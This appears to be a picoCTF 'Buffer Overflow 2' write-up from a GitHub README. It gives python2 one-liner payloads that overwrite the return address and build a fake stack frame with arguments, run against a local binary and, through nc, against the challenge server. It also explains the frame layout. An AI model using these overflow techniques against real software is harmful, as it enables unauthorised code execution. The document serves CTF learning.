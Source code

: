 # pico_ctf_bo2

- pico ctf BUFFER OVERFLOW 2

- https://www.youtube.com/watch?v=eJ0FmCfD-1g&ab_channel=JohnHammond

above video was used for hint for the "crafted frame requiring RIP" bit


> interesting numbers
```
python2 -c "print('A'*108)" | ./vuln


python2 -c "print('A'*107+'XXXXY' + '\x96\x92\x04\x08' +'\x0d\xf0\xfe\xca'  )" | ./vuln



working RIP ovewrite
python2 -c "print('A'*112 + '\x96\x92\x04\x08' +  '\x0d\xf0\x0d\xf0' +'\x0d\xf0\xfe\xca'  )" | ./vuln 


# still working rip
# now the "args" are at lower mem addresses on the stack
python2 -c "print('A'*104 + '\x0d\xf0\xfe\xca' + '\x0d\xf0\x0d\xf0' + '\x96\x92\x04\x08'  )" | ./vuln

```


## solution

> working remote payload
```
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" | nc saturn.picoctf.net 52463
```

> explanation of payload
```
first we fill the buffer, clobber EBP for current frame with A
next we write a new RET address onto the saved rip '\x9a\x92\x04\x08' 

Unlike other buffer overflows I have done WE NEED  A STACK FRAME
	this is because we are going to pass arguments to the function that we jump to
	a stack frame EXPECTS
		locals
		saved eIP
		then arguments
	we build a stack frame
		part of the ret is to pop the above into eIP
		therefore at point of our overflow we need to provide the saved eIP for our frame we are buiding
			it doesnt have to be legitimate
			it only needs to be legitimate if we want to do a 2nd return/jump
			thus we can use 'CCCC'
		below our crafted saved eIP we put the arguments to our function call
		first arg is at lowest address (seemingly backward order from our theory, but ignore for now)
```


## lessons learnt

```py
struct.pack('<I', 0x08049296)
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" 
```

python payloads are best generated with python2, python3 tries to encode it and ruins it
`struct.pack` will little endian encode a hex integer for you
python payloads can be printed to terminal, they can be copy pasted you just have to trust they are there (because they are)